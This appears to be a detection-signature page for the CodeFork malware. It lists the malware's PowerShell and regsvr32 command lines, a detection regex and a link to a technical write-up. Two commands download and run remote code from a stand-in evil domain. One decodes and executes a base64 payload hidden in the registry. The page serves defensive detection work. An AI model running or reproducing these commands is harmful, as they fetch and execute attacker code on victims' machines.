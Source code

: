 ## CodeFork




#### Commands
---

* Powershell.exe

1.
``
-WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop iex ([Text.Encoding]::ASCII.GetString([Convert]::FromBase64String((gp 'HKCU:\Software\Classes\[Same Random Key]').[Random Value Name])));
``

2.
``
-nop -ep Bypass -noexit -c [System.Net.ServicePointManager]: ServerCertificateValidationCallback = { $true }; iex ((New-Object System.Net.WebClient).DownloadString('https://somerandomevildomain.xx /somerandomflie'))
``

* Regsvr.exe

1.
``
/s /u /i:http://xxx.somerandomevildomain.xx/evilpath.xml scrobj.dl
``

#### Regular Expressions
---

``
^(?=.*\bNonInteractive\b)(?=.*\bbypass\b)(?=.*\bASCII\.GetString\b)(?=.*\bHKCU\b).*$
``

#### Resources
---

Technical write-ups:
* https://security.radware.com/malware/codefork-malware/

Sandbox reports:
* 

Notes:



 

